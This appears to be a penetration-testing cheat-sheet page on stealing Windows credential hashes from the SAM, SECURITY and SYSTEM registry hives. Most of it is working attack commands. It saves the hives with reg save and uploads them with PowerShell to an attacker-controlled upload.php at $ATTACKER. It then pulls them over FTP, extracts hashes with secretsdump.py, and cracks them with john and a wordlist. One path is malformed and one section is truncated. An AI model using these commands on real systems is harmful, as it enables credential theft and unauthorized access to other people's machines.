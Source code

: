 # SAM / SYSTEM / SECURITY

The Windows passwords are stored encrypted in the SAM file \(`C:Windows\System32\config\`\). The SYSTEM file located in the same folder contains the bootkey to decrypt it.

These two files are locked by the kernel when the operating system is up, so to access the passwords, we'll need to:

* mount the disk when the system is down
* use tools to dump the hashes in memory

There are also twin files backed up for recovery at `C:\Windows\Repair`. 

## Method 1: exfil from C:\Windows\Repair

... and use secretsdump.py \(see below\).

## Method 2: dump hashes in memory

```text
reg save hklm\sam sam.save
reg save hklm\security security.save
reg save hklm\system system.save
```

```text
powershell (New-Object System.Net.WebClient).UploadFile('http://$ATTACKER/upload.php','sam.save')
powershell (New-Object System.Net.WebClient).UploadFile('http://$ATTACKER/upload.php','security.save')
powershell (New-Object System.Net.WebClient).UploadFile('http://$ATTACKER/upload.php','system.save')
```

```text
$ ftp $TARGET
ftp> bin
200 Type set to I.

ftp> get sam.save
ftp> get security.save
ftp> get system.save
```

```text
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL > dump.hash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt dump.hash --format=NT
sudo john --show --format=NT dump.hash
```



